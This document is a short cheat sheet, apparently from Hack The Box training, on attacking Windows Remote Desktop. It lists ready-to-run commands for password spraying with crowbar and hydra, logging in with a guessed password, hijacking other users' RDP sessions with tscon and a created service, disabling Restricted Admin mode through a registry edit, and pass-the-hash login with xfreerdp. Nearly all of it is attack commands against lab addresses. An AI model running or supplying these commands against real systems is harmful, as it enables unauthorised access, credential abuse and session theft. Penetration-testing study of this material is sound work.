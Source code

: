 # Attacking RDP

## Password Spraying

```bash
bluechat@htb[/htb]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
bluechat@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## RDP Login

```bash
bluechat@htb[/htb]# rdesktop -u admin -p password123 192.168.2.143
bluechat@htb[/htb]# xfreerdp /v:192.168.2.143 /u:admin /p:password123 -clipboard
```

## Protocol-Specific Attacks


### RDP Session Hijacking

```
as admin:

query user

SESSIONNAME ID STATE IDLE-TIME ETC...

C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

### Creating a Local Service as Admin

```
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
C:\htb> net start sessionhijack
```

### RDP Pass-the-Hash for GUI applications

Note: Be aware of "Restricted Admin Mode" covered in the PtH section

```
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
```bash
bluechat@htb[/htb]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

